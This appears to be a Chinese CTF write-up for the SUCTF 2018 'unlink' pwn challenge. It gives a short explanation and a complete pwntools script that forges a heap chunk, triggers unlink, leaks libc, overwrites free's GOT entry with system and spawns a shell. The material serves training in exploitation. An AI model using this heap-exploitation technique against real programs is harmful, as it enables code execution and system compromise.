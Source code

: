```yaml
---
title: '[SUCTF 2018 招新赛]unlink'
date: 2024-11-17 18:18 +0800
categories: [ctf,pwn]
tags: [unlink]
---
```

> Problem: [[SUCTF 2018 招新赛]unlink](https://www.nssctf.cn/problem/2334)

## 思路

unlink到heap_list修改chunk0的指针指向got_free,修改chunk0的内容，即修改got_free的内容为system，劫持got表getshell

## EXP

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF('./service')
libc = ELF('./libc.so.6')
io = gdb.debug('./service')

def touch(size):
    io.sendlineafter(b'please chooice :\n',str(1))
    io.sendlineafter(b'please input the size : \n',str(size))

def delete(idx):
    io.sendlineafter(b'please chooice :\n',str(2))
    io.sendlineafter(b'which node do you want to delete\n',str(idx))

def show(idx):
    io.sendlineafter(b'please chooice :\n',str(3))
    io.sendlineafter(b'which node do you want to show\n',str(idx))

def edit(idx,content):
    io.sendlineafter(b'please chooice :\n',str(4))
    io.sendlineafter(b'which one do you want modify :\n',str(idx))
    io.sendafter(b'please input the content\n',content)

touch(0x20)     #0
touch(0x80)     #1
touch(0x20)     #2
heap_list = 0x6020C0
edit(0,p64(0)+p64(0x21)+p64(heap_list-0x18)+p64(heap_list-0x10)+p64(0x20)+p64(0x90))
delete(1)
edit(0,p64(0)*3+p64(elf.got['free']))
show(0)
libc_base_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - libc.sym['free']
sys_addr = libc_base_addr + libc.sym['system']
log.info('system => '+hex(sys_addr))
edit(0,p64(sys_addr))
edit(2,'/bin/sh\x00')
delete(2)

io.interactive()
```

## 总结
unlink还需要仔细捋清一下逻辑，这道题目还有其他的方法，后续可以尝试一下。
